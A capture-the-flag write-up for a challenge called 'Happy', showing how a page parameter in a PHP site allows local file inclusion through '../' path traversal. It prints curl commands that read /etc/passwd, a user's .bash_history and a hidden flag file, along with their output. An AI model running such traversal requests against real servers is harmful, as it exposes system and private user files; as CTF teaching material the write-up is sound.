


# Happy Writeup

The web site serves two different pages: a happy and a sad page:

https://happy.tghack/page.php?page=happy/index.php:


and
https://happy.tghack.no/page.php?page=sad/index.php:


There's nothing interesting in the source code of the pages or in the HTTP(S) headers. However, the URL is quite interesting. It seems like the site loads `index.php` based on a local path. In some cases, we can try to include local files by going outside of the directory containing `happy/index.php` and `/sad/index.php`.

```
$ curl https://happy.tghack.no/page.php\?page\=../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
colord:x:112:117:colord colour management daemon,,,:/var/lib/colord:/bin/false
ntp:x:115:120::/home/ntp:/bin/false
bob:x:1001:1001::/home/bob:/bin/bash
```

Nice! This means we have a local file inclusion (LFI) vulnerability! The task description hints that the user Bob has done some shady stuff, and we can see him in the output of the `passwd` file, so we should probably check out his home folder.

From `/etc/passwd` we see that he is using `bash`: `bob:x:1001:1001::/home/bob:/bin/bash`. This means we can try to look at `.bashrc`, `.bash_history`, `.bash_profile` etc. and see if he has any interesting information stored there.


```
$ curl https://happy.tghack.no/page.php\?page\=../../../../home/bob/.bash_history
ls
whoami
mkdir ./my_secret_folder
ls
ls my_secret_folder/
ls
mv my_secret_folder/ .my_secret_folder
ls
vim .my_secret_folder/flag.txt
ls
cd ..
ls
cd bob/
ls
whoami
id
uptime
```

Aha! He has a folder called `.my_secret_folder` that has `flag.txt`!

```
$ curl https://happy.tghack.no/page.php\?page\=../../../../home/bob/.my_secret_folder/flag.txt
TG18{serving_php_by_day_traversing_local_directories_by_night}
```
